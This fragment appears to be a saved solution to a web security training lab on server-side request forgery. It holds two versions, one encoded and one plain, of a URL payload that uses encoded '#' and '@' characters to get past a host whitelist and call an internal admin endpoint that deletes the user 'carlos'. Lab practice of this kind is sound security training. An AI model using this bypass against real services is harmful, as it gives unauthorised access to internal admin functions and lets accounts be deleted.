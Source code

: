 
http%3A%2F%2Flocalhost%3a80%2523@stock.weliketoshop.net%3A8080%2Fadmin/delete?username=carlos
//same command but simpler for human understanding
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
